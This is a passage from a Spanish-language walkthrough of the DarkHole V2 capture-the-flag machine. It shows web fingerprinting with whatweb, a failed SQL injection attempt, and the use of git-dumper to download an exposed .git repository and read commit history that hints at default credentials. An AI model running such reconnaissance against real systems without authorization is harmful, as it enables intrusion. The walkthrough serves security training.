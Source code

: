 ## 2. Enumeración

Comprobamos la web con el siguiente comando:

```bash
$ whatweb http://192.168.184.131
http://192.168.184.131 [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.184.131], Title[DarkHole V2]
```

Accedemos a la página web `http://192.168.184.131` y vemos un formulario de login en `http://192.168.184.131/login.php`. Probamos un ataque SQL Injection con BurpSuite, pero no es vulnerable.

Probamos si podemos obtener acceso con ataques SQL injection usando BurpSuite pero vemos que no es vulnerable.

Recuerdamos el path `.git` expuesto en la página, lo que indica que la carpeta Git del repositorio está pública. Utilizamos `git-dumper` para descargar el repositorio.

```bash
$ git clone https://github.com/arthaud/git-dumper.git
$ cd git-dumper
$ mkdir darkhole2git
$ python3 git_dumper.py http://192.168.184.131/.git/ darkhole2git
```

Una vez descargado el repositorio, lo encontramos en la carpeta `darkhole2git`.

```bash                                                                                                                                                
┌──(root㉿kali)-[/home/kali/git-dumper/darkhole2git]
└─# ls
config  dashboard.php  index.php  js  login.php  logout.php  style
```

Usamos `git log` para ver el historial de commits:

```bash
┌──(root㉿kali)-[/home/kali/git-dumper/darkhole2git]
└─# git log                                            
commit 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 (HEAD -> master)
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:14:32 2021 +0300

    i changed login.php file for more secure

commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

commit aa2a5f3aa15bb402f2b90a07d86af57436d64917
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:02:44 2021 +0300

    First Initialize
```
